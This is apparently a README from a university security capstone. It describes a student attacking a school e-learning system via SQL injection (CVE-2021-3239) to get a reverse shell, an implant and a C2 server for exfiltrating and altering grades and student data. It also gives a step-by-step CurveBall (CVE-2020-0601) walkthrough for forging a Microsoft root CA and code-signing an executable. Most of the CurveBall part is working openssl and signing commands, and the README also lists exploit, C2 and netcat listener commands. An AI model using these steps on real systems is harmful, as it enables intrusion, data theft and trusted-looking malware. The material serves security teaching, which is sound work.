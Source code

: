 # CS590J Capstone 

The general idea: Victim is a school education system that has all the grades and tons of student/teacher information. Let's assume this is all stored on the same machine and we can put all these files on the desktop. We are a student that wants to have malicious access to this system to access school files (grades, attendance), spy on peer's information, and whatever teacher files are on the computer (data modification and exfil). There is a vulnerability in the system (CVE-2021-3239): "E-Learning System 1.0" (an actual piece of software submitted to an open source website which was used by a public school in the Philippines) is vulnerable to SQL injection and we are able to authenticate by SQL injecting an "or TRUE" into the unsanitized login screen and then gain a reverse shell or install an implant. From here the implant runs and we connect to it via a C2 software that we wrote so that we can choose which data and when to extract it or when to abort.

# Setting up

## How to setup the victim and environment
To test this out, generally follow the setup instructions here: https://www.sourcecodester.com/php/12808/e-learning-system-using-phpmysqli.html.
- First setup a virtual machine in virtualbox of windows 10 old version: https://drive.google.com/file/d/1OUPmqJ7JiYdY5jt7T7G9oDnN01usJs7v/view?usp=sharing. I gave it 32 GB storage and 7 GB RAM, but more is better of course. All future instructions are from this VM.
- Install XAMP version 7.2.33 onto this windows VM(this version is important) https://www.apachefriends.org/download.html. You will have to click more and then find version 7.2.33. Download the most frequently downloaded copy of this version.

## How to setup the attacker environment
- Install netcat through nmap https://nmap.org/
- Install the most recent version of Python and pip install rsa, requests, and colorama (it's a lot easier to see colored text stand out)
- Follow the instructions in the first link to setup E-Learning System 1.0. This includes extracting the CAIWL program, running apache and mySQL, setting up a database.

## Virtual Machines
- Virtual Machines for the attacker (windows 10), and defender (kali linux) are provided [here](https://mega.nz/folder/Y54QxLLZ#uj_E9ViPxc4_p6T_Qzf79g).
- They have already been configured with all of the necessary applications installed and configured as specified by the previous two sections. 
- The attacker machine also has versions of the exploit and c2 files installed, however they may be out of date, in which case it will be necessary to re-clone the repository.

## How to Run
- Execute the exploit [python script](exploit.py) from the directory containing it. It accecpts a single command line argument `target ip`. If no IP is specified, the program will assume the target is `localhost` as a default.
```
python3 exploit.py [target ip]
``` 
- From here there are two options: either install and run the implant (enter 'i' or 'c' depending on the filetype you want when it prompts you to) and connect to the [c2 server](c2.py) in another window. Just as the [exploit](exploit.py), the c2 has a single optional parameter `target ip` which defaults to `localhost` if nothing is specified.
```
python3 c2.py [target ip]
``` 
- You also have the option to just gain a reverse shell without installing the implant. The implant will attempt to connect to port 9999, therefore you can simply listen on that port with netcat by running:
```
ncat -l 9999
```
- All in all the reverse shell looks like so:
![Image of the Reverse Shell](https://github.com/yshneyderman/CS590J-Capstone/blob/main/example.png)
- And the C2 looks like so:
![Image of the C2](https://github.com/yshneyderman/CS590J-Capstone/blob/main/example2.png)
- Once both are running, you will be greeted by a menu in the c2 that prompts you to self-destruct, exfil, or exit. If you choose self-destruct you have to confirm your actions. If you choose exfil you can then enter a subcommand to exfil the data from the victim, add a new exfil path (where to look for new exfil data), or explore their directories via OS-Walk.

## How to Setup GitHub
Generate SSH Keys
- sudo apt-get install git
- git config --global user.email "yealsh21@gmail.com"
- git config --global user.name "Yefim"
- ssh-keygen -t ed25519 -C "yealsh21@gmail.com"
- eval "$(ssh-agent -s)"
- ssh-add ~/.ssh/id_ed25519
- sudo apt-get install xclip
- xclip -selection clipboard < ~/.ssh/id_ed25519.pub

Add SSH Keys
- Login to GitHub, click profile, click settings and add SSH Key. Paste Key, give any title.

Clone the Repository
- git clone git@github.com:yshneyderman/CS590J-Capstone.git

Install Ruby:
- sudo apt update
- sudo apt install ruby

Adding changes (to a branch)
- git commit -a -m "What I changed"
- git push

# CurveBall (CVE-2020-0601) Exploit


Create a certificate with the same public key and parameters of a trusted CA. This will be used as our spoofing CA. Set the generator to a value, where you know the private key. You can easily set the generator to the public key, and have a private key set to `1`, since `Q = dG`.

Next up, you create a certificate signing request with the extensions you wish to use, e.g. code signing or server authentication.

Sign this certificate request with your spoofed CA and CA key, and add the usage extensions.

Bundle the signed certificate request (now a regular certificate) with the spoofed CA, and you have a signed and trusted certificate. 

When Windows checks whether the certificate is trusted, it'll see that it has been signed by our spoofed CA. It then looks at the spoofed CA's public key to check against trusted CA's. Then it simply verifies the signature of our spoofed CA with the spoofed CA's generator - this is the issue.

If you choose to open your newly and signed, trusted certificate in Windows, it'll not recognize it as trusted, since it hasn't been tied to anything, thus it will not use the spoofed CA. The certificate must always present itself with the spoofed CA.

## Code Signing
*Please use this for educational and researching purposes only.* 

Extract the public key from the CA and modify it according to the vulnerability:

    ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
Generate a new x509 certificate based on this key. This will be our own spoofed CA.

    openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt
Generate a new key. This key can be of any type you want. It will be used to create a code signing certificate, which we will sign with our own CA.

    openssl ecparam -name secp384r1 -genkey -noout -out cert.key
Next up, create a new  certificate signing request (CSR). This request will oftenly be sent to trusted CA's, but since we have a spoofed one, we can sign it ourselves.

    openssl req -new -key cert.key -out cert.csr -config openssl_cs.conf -reqexts v3_cs
Sign your new CSR with our spoofed CA and CA key. This certificate will expire in 2047, whereas the real trusted Microsoft CA will expire in 2043.

    openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_cs.conf -extensions v3_cs
The only thing left is to pack the certificate, its key and the spoofed CA into a PKCS12 file for signing executables.

    openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile spoofed_ca.crt -name "Code Signing" -out cert.p12
Sign your executable with PKCS12 file.

    osslsigncode sign -pkcs12 cert.p12 -n "Signed by ollypwn" -in 7z1900-x64.exe -out 7z1900-x64_signed.exe

See the usage [example](https://github.com/IIICTECH/-CVE-2020-0601---ECC-/blob/master/tls/index.js).

